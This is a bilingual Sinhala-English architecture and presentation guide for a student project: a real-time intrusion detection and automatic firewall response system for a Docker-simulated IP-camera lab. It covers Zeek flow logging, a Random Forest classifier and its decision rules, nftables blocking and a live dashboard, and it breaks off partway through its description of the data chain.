

# Real-Time Intrusion Detection and Autonomous Response System for IP-Camera IoT Networks

## A to Z Complete Operational Architecture & Presentation Guide

> **මෙම ලේඛනයේ අරමුණ:**
> මෙම පද්ධතිය මුල සිට අගට ක්‍රියාත්මක වන ආකාරය ("මේ තියෙන්නේ කැමරාව, මේක Zeek එක, මේකෙන් මේ දේ එළියට එනවා, ඊළඟ කෙනා ඒකෙන් මේ දේ කරනවා...") යන සම්පූර්ණ දාමය, **Dashboard එක සැබවින්ම සම්බන්ධ වී තත්‍ය කාලීනව (Real-time) ක්‍රියාත්මක වන ආකාරය**, සහ **Virtual Lab එකේ සෑම කොටසක්ම තනි තනියෙන් පරීක්ෂා කර පෙන්වන ආකාරය**, ඕනෑම කෙනෙකුට (විශේෂයෙන්ම Supervisor ට) පැහැදිලි කිරීමට හැකි වන පරිදි, සරල සිංහලෙන් සහ තාක්ෂණික විස්තර සහිතව ඉදිරිපත් කිරීමයි.

>
> **⚠️ කියවීමට පෙර (Honesty notes - 12–13 Nov 2026 දින cold start එකක සිට Virtual Lab එකේ සියලු commands Windows PowerShell 5.1 හි ධාවනය කර පරීක්ෂා කරන ලදී, progress entry 3.78, decision D-057):**
>
> - **සැබෑ දේ:** network packets, Zeek, AI model එක (v3.1.0), Decision Engine, Router එකේ Linux `nftables` firewall එක, MongoDB, Dashboard, සහ Nmap device scan එක.
> - **අනුකරණය (simulated) කළ දේ:** උපාංග (Camera, NVR, Admin PC, Attacker, Cloud) Docker containers වේ. කැමරාව `camera_sim.py` වැඩසටහනකි - එය යවන්නේ සැබෑ H.264 වීඩියෝවක් නොව, තත්පරයට ~200 KB අහඹු bytes ය.
> - **ඉලක්කම් සෑම run එකකදීම වෙනස් වේ:** පහත "ලැබෙන පිළිතුර" කොටස් 12–13 Nov 2026 දින ලබාගත් උදාහරණ වේ. Latency, flow ගණන, confidence වැනි අගයන් එක් එක් run එකේදී වෙනස් වේ.
> - **Virtual Lab එකෙන් ඔප්පු කළ නොහැකි දේ:** Hypothesis H1 හි දෙවන කොටස (සැබෑ කැමරා traffic මත FPR ≤ 5%) සහ RQ3 හි අවසාන පිළිතුර සඳහා **සැබෑ IP කැමරාවක්** අවශ්‍ය වේ (Hardware Lab, `lab_hardware/README.md`). Supervisor ට කියන්න: *"This is our virtual lab: the packets, Zeek, the model, the router firewall and the dashboard are real; the devices are simulated. The real-camera results come from the hardware lab."*

---

## පටුන (Table of Contents)

1. [පද්ධතියේ සිටින චරිත (The Network Entities)](#1-පද්ධතියේ-සිටින-චරිත-the-network-entities)
2. [A සිට Z දක්වා දත්ත ගලායන සම්පූර්ණ දාමය සහ සැබෑ පද්ධති ගෘහ නිර්මාණ සටහන (The End-to-End Operational Architecture & Data Chain)](#2-a-සිට-z-දක්වා-දත්ත-ගලායන-සම්පූර්ණ-දාමය-සහ-සැබෑ-පද්ධති-ගෘහ-නිර්මාණ-සටහන-the-end-to-end-operational-architecture--data-chain)
3. [Dashboard එක පද්ධතියට සම්බන්ධ වන ආකාරය සහ එහි පිටු 7 (The Dashboard Architecture)](#3-dashboard-එක-පද්ධතියට-සම්බන්ධ-වන-ආකාරය-සහ-එහි-පිටු-7-the-dashboard-architecture)
4. [Virtual Lab එක Docker මඟින් නිර්මාණය කර ඇති ආකාරය සහ එහි සාක්ෂි (Virtual Lab Architecture & Proofs)](#4-virtual-lab-එක-docker-මඟින්-නිර්මාණය-කර-ඇති-ආකාරය-සහ-එහි-සාක්ෂි-virtual-lab-architecture--proofs)
   - 4.1 [Virtual Lab එක සකස් කර ඇති ආකාරය සහ එය ක්‍රියාත්මක වන සම්පූර්ණ යාන්ත්‍රණය (How it is Built & Operates)](#41-virtual-lab-එක-සකස්-කර-ඇති-ආකාරය-සහ-එය-ක්‍රියාත්මක-වන-සම්පූර්ණ-යාන්ත්‍රණය-how-it-is-built--operates)
   - 4.2 [සෑම කොටසක්ම තනි තනියෙන් පරීක්ෂා කර පෙන්වන සාක්ෂි (Component-by-Component Proofs - පරීක්ෂණ 13)](#42-සෑම-කොටසක්ම-තනි-තනියෙන්-පරීක්ෂා-කර-පෙන්වන-සාක්ෂි-component-by-component-proofs)
     - 4.2.0 [ආරම්භයේ සිටම සියල්ල පණගන්වා ගැනීම (Cold Start Lifecycle)](#420-ආරම්භයේ-සිටම-සියල්ල-පණගන්වා-ගන්නා-ආකාරය-starting-the-entire-lab-from-scratch)
     - 4.2.1 [කැමරාවේ සේවාවන් තහවුරු කිරීම (IP Camera Verification - Scenario 1)](#421-කැමරාවේ-සේවාවන්-තහවුරු-කිරීම-ip-camera-dual-services-verification)
     - 4.2.2 [NVR වීඩියෝ දත්ත නොකඩවා ගලා ඒම (Continuous Video Ingestion)](#422-nvr-එක-වෙත-වීඩියෝ-දත්ත-නොකඩවා-ගලා-ඒම-තහවුරු-කිරීම-nvr-continuous-video-ingestion)
     - 4.2.3 [Admin PC සහ Camera Web GUI තහවුරු කිරීම (Management Plane)](#423-admin-pc-කළමනාකරණය-සහ-camera-web-gui-තහවුරු-කිරීම-admin-management-plane--visual-gui)
     - 4.2.4 [Zeek Promiscuous Sniffing සහ Connection Logs (FR-01 & RQ3)](#424-zeek-sensor-මඟින්-promiscuous-sniffing-සහ-connection-logs-සෑදීම-flow-extraction---fr-01--rq3)
     - 4.2.5 [Linux nftables Firewall & Allowlist (FR-06 & FR-07)](#425-linux-nftables-firewall-එක-router-එක-තුළ-ක්‍රියාත්මක-වීම-firewall-ruleset--allowlist---fr-06--fr-07)
     - 4.2.6 [Attacker Port Scan (Reconnaissance - Scenario 2)](#426-attacker-විසින්-port-scan-සිදු-කිරීම-reconnaissance---table-10-scenario-2)
     - 4.2.7 [IDS Pipeline & Sub-Second Latency (FR-02, FR-03 & Table 9 Target)](#427-ids-pipeline-ක්‍රියාකාරීත්වය-සහ-sub-second-latency-තහවුරු-කිරීම-ml-detector--latency---fr-02-fr-03--table-9-target)
     - 4.2.8 [C&C Autonomous Block & Live Alert (FR-04, FR-06 & Scenario 4)](#428-cc-ප්‍රහාරය-හඳුනාගෙන-router-firewall-එකේ-සජීවීව-block-වීම-autonomous-mitigation---fr-04-fr-06--table-10-scenario-4)
     - 4.2.9 [ප්‍රහාර අතරතුර කැමරා stream එක සහ ආරක්ෂිත උපාංග (RQ5 & Benign Safety)](#429-ප්‍රහාරය-අතරතුරදීත්-කැමරා-stream-එකට-බාධාවක්-නොවීම-සහ-කැමරාව-block-නොවීම-camera-safety-during-attacks---rq5-table-9-benign-safety)
     - 4.2.10 [පාලනය කළ Nmap Scan මඟින් උපාංග සෙවීම (Device Discovery - FR-05)](#4210-පාලනය-කළ-nmap-scan-මඟින්-අනුමත-උපාංග-සහ-සේවාවන්-හඳුනාගැනීම-controlled-nmap-device-discovery---fr-05--section-37)
     - 4.2.11 [Manual Block/Unblock & Filtered Log Export (FR-07, FR-08 & Scenario 6)](#4211-පරිපාලකයාට-manual-block-unblock-කිරීම-සහ-audit-logs-export-කිරීම-manual-blockunblock-audit-trail--filtered-export---fr-07-fr-08-scenario-6-objective-o5)
     - 4.2.12 [Machine Learning ආකෘතියේ පුහුණුව, නිරවද්‍යතාව සහ සජීවී වර්ගීකරණය තහවුරු කිරීම (ML Model Architecture, Training & Live Inference - FR-01, FR-02, Objective O2)](#4212-machine-learning-ආකෘතියේ-පුහුණුව-නිරවද්‍යතාව-සහ-සජීවී-වර්ගීකරණය-තහවුරු-කිරීම-ml-model-architecture-iot-23-training-zero-leakage-evaluation--live-inference-proof---objective-o2-table-6-table-7-fr-02-table-8-table-9)
   - 4.3 [විවිධ ප්‍රහාර වර්ග අතින් Commands ගසා සජීවීව පෙන්වීමේ ප්‍රායෝගික අත්පොත (Hands-On Manual Attack Execution, ML Detection, Firewall Response & Dashboard Telemetry Playbook)](#43-විවිධ-ප්‍රහාර-වර්ග-අතින්-commands-ගසා-සජීවීව-පෙන්වීමේ-ප්‍රායෝගික-අත්පොත-hands-on-manual-attack-execution-ml-detection-firewall-response--dashboard-telemetry-playbook)
     - 4.3.1 [PortScan: Nmap Port Sweep (Table 10 Scenario 2)](#431-ප්‍රහාර-වර්ගය-1-portscan-reconnaissance---table-10-scenario-2)
     - 4.3.2 [DDoS / DoS: SYN Flood & Router Rate-Limiting (Table 10 Scenario 3 & D-055)](#432-ප්‍රහාර-වර්ගය-2-ddos--dos-syn-flood-resource-exhaustion---table-10-scenario-3--rule-d-055)
     - 4.3.3 [Command & Control (C&C): Botnet Beacons & Autonomous Block (Table 10 Scenario 4)](#433-ප්‍රහාර-වර්ගය-3-command--control-cc-botnet-beacons---table-10-scenario-4)
     - 4.3.4 [Malware Download: Binary Payload Transfer & Forensic Alerts (Table 10 Scenario 5)](#434-ප්‍රහාර-වර්ගය-4-malware-download--suspicious-binary-transfer-table-10-scenario-5)
     - 4.3.5 [Administrator Manual Block & Rollback (Table 10 Scenario 6)](#435-ප්‍රහාර-වර්ගය-5-administrator-manual-block--rollback-table-10-scenario-6)
5. [සැබෑ උදාහරණ: සාමාන්‍ය අවස්ථාව සහ විවිධ ප්‍රහාරක අවස්ථා](#5-සැබෑ-උදාහරණ-සාමාන්‍ය-අවස්ථාව-සහ-විවිධ-ප්‍රහාරක-අවස්ථා-end-to-end-data-chain-in-action)
6. [Supervisor ඉදිරියේ Presentation එකක් කරන ආකාරය (Step-by-Step Script)](#6-supervisor-ඉදිරියේ-presentation-එකක්-කරන-ආකාරය-step-by-step-script)

---

# 1. පද්ධතියේ සිටින චරිත (The Network Entities)

අපේ Virtual Lab එක තුළ සැබෑ පරිගණක ජාලයක් ක්‍රියාත්මක වේ (Docker containers 11 ක්). එහි ප්‍රධාන චරිත මෙන්න:

```
[පිටත ජාලය / Outside LAN: 10.10.10.0/24]
Attacker Laptop (10.10.10.50)  ───┐
                                  ├── [ROUTER / FIREWALL] (10.10.10.1 / 192.168.50.1)
Cloud Server (10.10.10.123)    ───┘         │
                                            ▼
                           [ඇතුළත කැමරා ජාලය / Camera LAN: 192.168.50.0/24]
                                ├─ IP Camera (192.168.50.30)
                                ├─ NVR Video Recorder (192.168.50.20)
                                ├─ Admin PC (192.168.50.10)
                                ├─ IDS Scanner / Sensor management port (192.168.50.5) - Nmap device scans
                                └─ [ZEEK SENSOR] (කේබලයට සවන් දෙයි - lab උපාංගයක් ලෙස IP එකක් නැත)
```

1. **IP Camera (`192.168.50.30`):**
   - අප ආරක්ෂා කරන උපාංගයයි.
   - එයින් දර්ශනය වන වීඩියෝව Port 554 න් (RTSP protocol) NVR එකට යවයි. Port 80 න් වෙබ් පිටුවක් සපයයි.
2. **NVR Recorder (`192.168.50.20`):**
   - කැමරාවෙන් එන video stream එක නොකඩවා පටිගත කරගන්නා පරිගණකයයි.
3. **Admin PC (`192.168.50.10`):**
   - කැමරාවේ සැකසුම් (settings) බලන පරිපාලක පරිගණකයයි.
4. **Router & Firewall (`192.168.50.1` / `10.10.10.1`):**
   - පිටත ජාලය සහ ඇතුළත කැමරා ජාලය සම්බන්ධ කරන දොරටුවයි (Gateway).
   - මෙහි සැබෑ Linux `nftables` firewall එක ක්‍රියාත්මක වේ.
5. **Attacker Laptop (`10.10.10.50`):**
   - පිටත සිට කැමරාවට scan සහ flood ප්‍රහාර එල්ල කරන හැකර්ගේ පරිගණකයයි.
   - එම IP එකේම Lab C&C Server එක (Port 6667) සහ හානියක් නැති test program එක දෙන web server එක (`ids-lab-attack-server`) ද ධාවනය වේ.
6. **Zeek Sensor:**
   - ජාලයේ කේබලයට හොරෙන් සවන් දී සිටින ඔත්තුකරුයි (IP එකක් නැත).
7. **IDS Scanner (`192.168.50.5`, `ids-lab-scanner`):**
   - Lab plan එකේ sensor එකේ management port එකයි. Dashboard එකෙන් ආරම්භ කරන **සැබෑ Nmap device scan** එක මෙතැනින් ධාවනය වේ (D-057).
   - Allowlist එකේ ඇති නිසා එය කිසිවිටෙක block නොවේ.

---

# 2. A සිට Z දක්වා දත්ත ගලායන සම්පූර්ණ දාමය සහ සැබෑ පද්ධති ගෘහ නිර්මාණ සටහන (The End-to-End Operational Architecture & Data Chain)

මෙම පද්ධතිය තුළ **ජාල ස්ථරය (Network Layer)**, **සංවේදක ස්ථරය (Sensor Layer)**, **කෘත්‍රිම බුද්ධි එන්ජිම (AI Engine)**, **ස්වයංක්‍රීය Firewall පාලනය (Firewall Mitigation)**, සහ **සජීවී Dashboard අතුරුමුහුණත (Web Dashboard)** එකිනෙක සම්බන්ධ වී ක්‍රියාත්මක වන ආකාරය බැලූ බැල්මට තේරුම් ගත හැකි සැබෑ පද්ධති ආකෘතිය (Real Architecture Diagram) මෙන්න:

---

### 🗺️ පද්ධතියේ සැබෑ ගෘහ නිර්මාණ සටහන (Interactive Mermaid Architecture Diagram)



---

### 📐 පූර්ණ තාක්ෂණික සැලැස්ම (High-Resolution Architectural Schematic)

```text
========================================================================================================================
                                 REAL-TIME INTRUSION DETECTION & AUTONOMOUS RESPONSE
                                      END-TO-END SYSTEM OPERATIONAL ARCHITECTURE
========================================================================================================================

  [ OUTSIDE WAN NETWORK : 10.10.10.0/24 ]
  ┌─────────────────────────────────────┐
  │  Attacker Laptop (10.10.10.50)      │
  │  - Port Scanning (Scenario 2)       │
  │  - Lab C&C server :6667 (Scen. 4)   │
  └──────────────────┬──────────────────┘
                     │ (1) Inbound scans/flood; outbound C&C beacons from the camera
                     ▼
  ┌───────────────────────────────────────────────────────────────────────────────────┐
  │  ROUTER & PERIMETER FIREWALL (ids-lab-router : 10.10.10.1 / 192.168.50.1)         │
  │  - Linux Kernel IP Forwarding (No NAT)                                            │
  │  - nftables Dynamic Sets: block_src, block_dst, limit_src (timeout 30m)            │
  └──────────────────┬────────────────────────────────────────────────────────────────┘
                     │ (2) Forwarded Traffic into LAN
                     ▼
  ═══════════════════╪═════════════════════════════════════════════════════════════════════════════════════════════════
  [ CAMERA SURVEILLANCE LAN : 192.168.50.0/24 (Docker Bridge: br-ids-lan) ]
  ───────────────────┼─────────────────────────────────────────────────────────────────────────────────────────────────
                     │
     ┌───────────────┴─────────────────┐            (3) Legitimate Video (Port 554)
     │  IP Camera (192.168.50.30)      ├──────────────────────────────────────────► ┌────────────────────────────────┐
     │  - RTSP Server (Port 554)       │                                            │  NVR Recorder (192.168.50.20)  │
     │  - Web GUI (Port 80)            │ ◄───────────────────────────────────────── │  - Video Storage & Playback    │
     └───────────────┬─────────────────┘            (HTTP Camera Management)        └────────────────────────────────┘
                     │                                                                              ▲
                     │ (4) All LAN Packets Mirrored (Promiscuous Mode Tap)                          │ (Uninterrupted)
                     ▼                                                                              │
  ┌─────────────────────────────────────────────────────────────────────────────────────────────────┴────────────────┐
  │  ZEEK NETWORK SENSOR CONTAINER (ids-lab-sensor : Host Promiscuous Tap on br-ids-lan)                             │
  │  - Zero network latency / Non-invasive passive packet capture                                                    │
  │  - Real-time flow state tracking -> Streams conn.log (JSON Lines)                                                │
  └──────────────────┬───────────────────────────────────────────────────────────────────────────────────────────────┘
                     │ (5) conn.log Event Stream
                     ▼
  ┌──────────────────────────────────────────────────────────────────────────────────────────────────────────────────┐
  │  PYTHON REAL-TIME AI INTRUSION DETECTION PIPELINE (core_engine/runner.py)                                        │
  │                                                                                                                  │
  │  ┌─────────────────────────────┐        ┌──────────────────────────────┐        ┌─────────────────────────────┐  │
  │  │  1. Zeek Adapter            │ (6)    │  2. Random Forest Model      │ (7)    │  3. Decision Engine         │  │
  │  │  - Tail reads conn.log      ├───────►│  - Version v3.1.0            ├───────►│  - Allowlist Verification   │  │
  │  │  - Extracts 27 Features     │ Feature│  - 100 Calibrated Trees      │ Class &│  - Repeat Thresholds (3/60s)│  │
  │  │  - Sliding Windows (60s/1h) │ Vector │  - Model step ~8 µs/flow     │ Probs  │  - Action Selector          │  │
  │  └─────────────────────────────┘        └──────────────────────────────┘        └──────────────┬──────────────┘  │
  └────────────────────────────────────────────────────────────────────────────────────────────────┼─────────────────┘
                                                                                                   │
                     ┌─────────────────────────────────────────────────────────────────────────────┴──────────┐
                     │ (8) Autonomous Block Decision: "DROP 10.10.10.50 (timeout 30m)"                        │
                     ▼                                                                                        ▼
  ┌─────────────────────────────────────────────────────┐            ┌────────────────────────────────────────────────┐
  │  FIREWALL MITIGATION CONTROLLER                     │            │  PERSISTENCE & DASHBOARD SERVER (Port 5000)    │
  │  (core_engine/firewall/router_adapter.py)           │            │  (core_engine/app.py - Flask + Socket.IO)      │
  │  - Secure SSH connection (Port 2222) to Router      │            │  - Saves to MongoDB (iot_ids_lab database)     │
  │  - Injects: nft add element inet ids block_dst      │            │  - WebSocket pushes live incident alert        │
  │  - Rule active ~0.2-0.3 s after the first alert     │            │  - Sub-second UI updates without page refresh  │
  └──────────────────┬──────────────────────────────────┘            └────────────────────────┬───────────────────────┘
                     │                                                                        │
                     │ (9) Enforce nftables Drop Rule                                         │ (10) WebSocket Live Push
                     ▼                                                                        ▼
  ┌─────────────────────────────────────────────────────┐            ┌────────────────────────────────────────────────┐
  │  ids-lab-router FIREWALL KERNEL                     │            │  REACT DARK-THEME OPERATIONAL DASHBOARD        │
  │  - 10.10.10.50 instantly blocked                    │            │  - Live Alerts Page: CnC alert, BLOCKED badge  │
  │  - Camera .30 remains online & video flows          │            │  - Blocklist Page: rule with its end time      │
  │  - Rule expires by itself after 30 min              │            │  - Overview Page: Attack Class Bar Chart       │
  └─────────────────────────────────────────────────────┘            └────────────────────────────────────────────────┘
========================================================================================================================
```

---

### 🧱 පද්ධතියේ ප්‍රධාන තල 5 ක ක්‍රියාකාරීත්වය (The 5 Operational Architecture Planes)

1. **ජාල දත්ත තලය (Network Data Plane):**
   - පරිගණක ජාල දෙකක් (`10.10.10.0/24` WAN සහ `192.168.50.0/24` Surveillance LAN) `ids-lab-router` මඟින් වෙන් කර ඇත.
   - කැමරාව (`.30`) Port 554 න් NVR එකට (`.20`) තත්පරයට ~200 KB දත්ත නොකඩවා යවයි (සිමියුලේටරය යවන්නේ සැබෑ වීඩියෝ frames නොව අහඹු bytes ය).
2. **අක්‍රීය සංවේදක තලය (Passive Sensor Plane - Zero Disruption):**
   - Zeek Sensor එක switch mirror port (Docker bridge `br-ids-lan`) හරහා promiscuous mode එකෙන් සියලුම network packets වල පිටපත් ලබාගනී.
   - මෙය ජාලයේ කිසිදු packet එකකට ප්‍රමාදයක් (delay) ඇති නොකරන අතර, connection එකක් අවසන් වූ සැණින් සම්මත JSON ආකෘතියෙන් `conn.log` හි සටහන් කරයි.
3. **තත්‍ය කාලීන AI හඳුනාගැනීමේ සහ තීරණ ගැනීමේ තලය (Real-Time AI & Decision Plane):**
   - Python Adapter එක `conn.log` ගොනුවේ අලුත් පේළි කියවා Proposal Table 6 ට අනුකූලව **Behavioral Features 27** ක් සාදයි.
   - **Random Forest Model v3.1.0** (Decision Trees 100 ක එකතුව) මඟින් එක් flow එකක් වර්ගීකරණය කිරීමට ගතවන්නේ **7.96 µs (microseconds)** ක් පමණි.
   - Decision Engine එක මඟින් Allowlist එක (`.1`, `.5`, `.10`, `.20` කිසිවිටෙකත් block නොවේ), **local-network නීතිය** (කැමරා ජාලයේ `192.168.50.0/24` ඕනෑම උපාංගයක්, කැමරාව `.30` ද ඇතුළුව, ස්වයංක්‍රීයව block නොවේ) සහ repeat rules (තත්පර 60 තුළ 3 වරක්) පරීක්ෂා කර ක්‍රියාත්මක විය යුතු ආරක්ෂක පියවර තීරණය කරයි.
4. **ස්වයංක්‍රීය Firewall පාලන තලය (Autonomous Mitigation Plane):**
   - ප්‍රහාරයක් තහවුරු වූ සැණින් Router Adapter එක මඟින් කළමනාකරණ SSH සම්බන්ධතාවය (Port 2222) හරහා Router එකේ Linux `nftables` firewall එකට drop rule එක ඇතුළත් කරයි.
   - ප්‍රහාරකයාගේ IP ලිපිනය `timeout 30m` (මිනිත්තු 30) සමඟ block වන අතර, නියමිත කාලය අවසන් වූ විට kernel එක මඟින් ඉබේම ඉවත් වේ. DDoS flood එකකදී block නොකර **rate-limit** කරයි (තත්පරයට packets 200 ට වඩා drop කරයි, D-055).
5. **දත්ත ගබඩා, API සහ සජීවී Dashboard තලය (Persistence, API & Dashboard Plane):**
   - සෑම ප්‍රහාරයක්ම සහ අවහිරයක්ම MongoDB හි `attack_events`, `blocklist`, සහ `system_logs` වල සුරක්ෂිත වේ.
   - Flask API එක WebSocket (Socket.IO) මඟින් React Web Dashboard වෙත push notification යවයි. මනින ලද කාලය (Zeek පේළිය කියවූ සිට dashboard එකට): median ~0.14 s; පද්ධතිය ආරම්භ කළ මුල් මිනිත්තු කිහිපයේ ~0.6 s දක්වා (target: < 2 s).

---

### 📋 බැලූ බැල්මට පද්ධතියේ සංරචක සාරාංශ වගුව (At-a-Glance Component Matrix)

| සංරචකය (Component) | පරිගණක නාමය / ගොනුව | IP / Port | ප්‍රධාන කාර්යභාරය (Core Function) | ආදානය (Input) | ප්‍රතිදානය (Output) |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **IP Camera** | `ids-lab-camera` (`camera_sim.py`) | `192.168.50.30:554,80` | වීඩියෝ-සමාන stream එක සහ වෙබ් කළමනාකරණය | RTSP / HTTP Requests | ~200 KB/s stream (random bytes) & Web GUI |
| **NVR Recorder** | `ids-lab-nvr` | `192.168.50.20` | කැමරා stream එක නොකඩවා ලබාගැනීම | RTSP Stream from .30 | Log: "NVR: recorded 58.6 MB" (no video file is kept) |
| **Admin PC** | `ids-lab-admin` | `192.168.50.10` | කැමරා සැකසුම් පාලනය සහ පරිපාලන කටයුතු | Admin Commands | HTTP Configuration Traffic |
| **Router & Firewall** | `ids-lab-router` | `192.168.50.1` / `10.10.10.1` | Linux Forwarding සහ nftables Firewall | Routed Packets | Drop Malicious / Forward Legitimate |
| **Attacker Laptop** | `ids-lab-attacker` + `ids-lab-attack-server` | `10.10.10.50` | Nmap scan, SYN flood, Lab C&C server (6667), test program web server | Lab Scenario Commands | SYN Scans, flood, C&C server replies |
| **IDS Scanner** | `ids-lab-scanner` | `192.168.50.5` | Dashboard එකෙන් ආරම්භ කරන සැබෑ Nmap device scan (FR-05, D-057) | `POST /api/scans` | Devices list (MAC, ports, services) |
| **Zeek Sensor** | `ids-lab-sensor` | Host Promiscuous (`br-ids-lan`) | ජාලයට බාධා නොකර packets කියවීම | Mirrored Raw Ethernet Frames | `conn.log`, `files.log` (JSON Lines) |
| **Zeek Adapter** | `core_engine/zeek_adapter.py` | Local Engine Thread | Behavior Features 27 ක් ගණනය කිරීම | JSON lines from `conn.log` | NumPy Feature Vector (27 floats) |
| **AI Classifier** | `core_engine/detector.py` | `ids_bundle_v3.joblib` | ප්‍රහාරක පන්තිය සහ සම්භාවිතාව ගණනය | 27 Features Vector | Predicted Class & Confidence ($P$) |
| **Decision Engine** | `core_engine/decision_engine.py`| Local Engine Thread | Allowlist, local-network සහ Repeat rules පරීක්ෂාව | Predictions & Context | Policy Decision (block / rate_limit) |
| **Router SSH Adapter**| `core_engine/firewall/` | SSH Port 2222 to Router | Linux nftables වෙත Drop Rule යැවීම | Block Instruction | Dynamic nftables drop entry |
| **Unified API Server**| `core_engine/app.py` | `http://localhost:5000` | REST API සහ Socket.IO Push Engine | Client Requests & Engine Events| JSON REST Responses & WebSocket Push |
| **React Dashboard** | `my-app` Frontend | Web Browser UI | සජීවී අධීක්ෂණය සහ පරිපාලක පාලනය | Socket.IO Events & User Clicks | Visual Alerts, Blocklist, Graphs |

---

---

### පියවර 1: Network එකේ Packets හැදීම (Raw Packets)

- **මොකක්ද වෙන්නේ?**
  - කැමරාව සහ NVR එක අතර, හෝ Attacker සහ කැමරාව අතර දත්ත හුවමාරු වන විට ජාල කේබලය හරහා **Ethernet Frames / IP Packets** ගමන් කරයි.
- **එළියට එන දේ (Output):**
  - Binary network packets (SYN, ACK, RTSP video payload, bytes).

---

### පියවර 2: Zeek Sensor එක Packets කියවා Log සෑදීම

- **මොකක්ද වෙන්නේ?**
  - Switch එකේ mirror port එකෙන් (හෝ Docker එකේ `br-ids-lan` bridge එකෙන්) Zeek එකට මේ packets වල copy එකක් ලැබේ.
  - Zeek එක packet එකක් පාසා බලමින් connection එකේ ආරම්භය, කාලය, හුවමාරු වූ bytes ගණන, සහ connection එක අවසන් වූ ආකාරය ගණනය කරයි.
  - Connection එක අවසන් වූ සැණින් Zeek එක **`conn.log`** ගොනුවේ එක් JSON පේළියක් ලියයි.
- **ක්‍රියාත්මක වන කේතය:** [`sensor/local.zeek`](<file:///d:/intrusion%20detection/sensor/local.zeek>)
- **එළියට එන දේ (Output - JSON text):**
  ```json
  {
    "id.orig_h": "192.168.50.30",
    "id.orig_p": 55178,
    "id.resp_h": "10.10.10.50",
    "id.resp_p": 6667,
    "proto": "tcp",
    "duration": 0.002,
    "orig_bytes": 0,
    "resp_bytes": 0,
    "conn_state": "REJ"
  }
  ```

---

### පියවර 3: Python Adapter එක මඟින් Feature 27 ක් ගණනය කිරීම

- **මොකක්ද වෙන්නේ?**
  - අපේ Python background worker එක (`runner.py`) විසින් `conn.log` ගොනුවේ අලුතින් ලියවෙන පේළි තත්‍ය කාලීනව (line by line) කියවයි.
  - AI Model එකට තේරෙන්නේ ඉලක්කම් පමණක් නිසා, JSON දත්ත සහ පසුගිය තත්පර 60 සහ පැය 1 තුළ සිදුවූ දේ එකතු කර **අංක 27 ක ලැයිස්තුවක් (Feature Vector)** සාදයි.
- **ක්‍රියාත්මක වන කේතය:**
  - [`core_engine/zeek_adapter.py`](<file:///d:/intrusion%20detection/core_engine/zeek_adapter.py>)
  - [`ml_engine/window_features.py`](<file:///d:/intrusion%20detection/ml_engine/window_features.py>)
- **ප්‍රධාන Features කිහිපයක්:**
  - `duration`: 0.002
  - `orig_bytes`: 0
  - `resp_bytes`: 0
  - `conn_state_REJ`: 1 (සම්බන්ධතාවය අසාර්ථකයි)
  - **`pair_fail_1h`:** 7 (පසුගිය පැය තුළ මේ දෙන්නා අතර අසාර්ථක වූ වාර ගණන 7 කි!)
- **එළියට එන දේ (Output):**
  - `[0.002, 0.0, 0.0, 0, 1, 0, ..., 7.0]` (අගයන් 27 ක NumPy array එකක්).

---

### පියවර 4: AI Model එක මඟින් ප්‍රහාරය හඳුනාගැනීම (Detector)

- **මොකක්ද වෙන්නේ?**
  - මෙම අගයන් 27 අපේ පුහුණු කරන ලද Random Forest AI Model එකට (`ids_bundle_v3.joblib`, Version 3.1.0) ලබාදෙයි.
  - Model එකෙහි Decision Trees 100 ක් ඇති අතර, ඒවායින් ඡන්දය විමසා කාණ්ඩ 5 සඳහා සම්භාවිතාවන් (probabilities) ගණනය කරයි.
- **ක්‍රියාත්මක වන කේතය:** [`core_engine/detector.py`](<file:///d:/intrusion%20detection/core_engine/detector.py>)
- **එළියට එන දේ (Output - DetectionResult Object):**
  - `predicted_class`: **`"CnC"`**
  - `confidence`: **`0.931`** (93.1%; 12 Nov 2026 run එක. අගය run එකෙන් run එකට වෙනස් වේ)
  - `model_version`: `"v3.1.0"`

---

### පියවර 5: ආරක්ෂක නීති පරීක්ෂා කිරීම (Decision Engine)

- **මොකක්ද වෙන්නේ?**
  - Model එක කී පමණින් කෙලින්ම block කරන්නේ නැත. එය Decision Engine වෙත යවයි.
  - **නීතිය 1 (ආරක්ෂිත IP පරීක්ෂාව):** block කිරීමට යන IP එක allowlist එකේ (`.1`, `.5`, `.10`, `.20`) හෝ කැමරා ජාලයේ (`192.168.50.0/24`, `lab.local_networks`) තිබේද? තිබේ නම් කිසිවිටෙක block නොකරයි. (කැමරාව `.30` allowlist එකේ නැත; එය ආරක්ෂා වන්නේ local-network නීතියෙනි.) මෙහි target එක `10.10.10.50` නම් පිටත පරිගණකයයි.
  - **නීතිය 2 (Confidence පරීක්ෂාව):** Alert එකක් සඳහා $P \ge 0.30$. Block සඳහා: CnC $P \ge 0.30$, PortScan $P \ge 0.88$. DDoS rate-limit සඳහා $P \ge 0.30$. Malware_Download සඳහා block නැත (alert පමණි).
